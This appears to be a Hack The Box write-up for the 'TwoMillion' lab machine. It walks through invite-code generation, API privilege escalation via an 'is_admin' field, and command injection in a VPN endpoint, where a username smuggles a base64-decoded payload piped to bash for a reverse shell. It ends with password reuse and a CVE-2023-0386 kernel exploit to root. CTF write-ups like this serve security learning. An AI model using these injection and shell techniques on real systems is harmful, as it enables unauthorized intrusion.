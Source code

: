 # HTB: TwoMillion

## Engagement Overview

**Target**: TwoMillion
**Target IP:** 10.10.11.221
**Local IP:** 10.10.16.9
**Date:** 2025-07-28

---

### Objectives

- Enumerate available API endpoints
- Gain initial access via web application vulnerabilities
- Escalate privileges to root using a kernel exploit (CVE-2023-0386)

---

## Initial Reconnaissance

### Nmap Scan

```bash
nmap -sC -sV -Pn 10.10.11.221
```

**Result Summary:**
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx
|_http-title: Did not follow redirect to http://2million.htb/
```

### Host Info

```
Linux 2million 5.15.70-051570-generic #202209231339 SMP Fri Sep 23 13:45:37 UTC 2022 x86_64
Ubuntu 22.04.2 LTS (Jammy)
```

**Note:** Add `2million.htb` to `/etc/hosts` for web access.

---

## Web Enumeration & Initial Access

1. Accessing the web server shows a legacy version of the HackTheBox platform.
2. JavaScript file `inviteapi.min.js` contains obfuscated code to generate an invite.
3. Deobfuscation reveals hidden POST routes:
   - `/api/v1/invite/how/to/generate`
   - `/api/v1/invite/generate`
4. Using the above endpoints, a valid invite code is generated and a user is registered.

### Account Creation via Invite Flow

```bash
curl -sX POST http://2million.htb/api/v1/invite/generate | jq
```

Base64 decoded invite code used to register a user at `/register`.

---

## Gaining Administrative Access

After login:
1. Explored API endpoints using the session cookie.
2. Endpoint `/api/v1/admin/settings/update` lacks proper validation and allows privilege escalation.

```bash
curl -X PUT http://2million.htb/api/v1/admin/settings/update   --cookie "PHPSESSID=<session>"   --header "Content-Type: application/json"   --data '{"email":"test@2million.htb", "is_admin": 1}'
```

Admin privilege verified:
```bash
curl http://2million.htb/api/v1/admin/auth --cookie "PHPSESSID=<session>" | jq
```

---

## Remote Command Execution

Using elevated privileges, command injection achieved via:
```bash
curl -X POST http://2million.htb/api/v1/admin/vpn/generate   --cookie "PHPSESSID=<session>"   --header "Content-Type: application/json"   --data '{"username":"test;echo <base64_payload> | base64 -d | bash;"}'
```

Reverse shell caught via Netcat:
```bash
nc -lvnp 1234
```

---

## Lateral Movement

1. Discovered `.env` in web root containing DB credentials.
2. SSH login as `admin` succeeded due to password reuse.

```bash
ssh admin@2million.htb
# Password: SuperDuperPass123
```

---

## Privilege Escalation

1. Enumerated `/var/mail/admin`, found advisory about kernel vulnerabilities.
2. Kernel version confirmed as vulnerable to CVE-2023-0386.

### Exploit Steps:
```bash
# Upload exploit to /tmp and unzip
scp cve.zip admin@2million.htb:/tmp
unzip cve.zip && cd CVE-2023-0386
make all
./fuse ./ovlcap/lower ./gc &
./exp
```

**Root Shell Acquired.**

---

## Post-Exploitation

- `user.txt`: `b475fff37c4ba394114ba0602756546d`
- `root.txt`: `b24036bdc728d59ab7230cddbf43798b`

Discovered `thank_you.json` in `/root/`, triple-encoded message decoded using CyberChef.

---

## Tools Utilized

- Nmap
- Curl & jq
- Burp Suite
- CyberChef
- De4js
- GitHub Exploit CVE-2023-0386

---

## Key Takeaways

- JavaScript deobfuscation and endpoint hunting can lead to privilege escalation.
- Misconfigured API logic in `update_settings` allowed user promotion.
- VPN generation endpoint enabled code injection via unsanitized shell execution.
- Kernel version vulnerable to CVE-2023-0386 provided full system compromise.

---
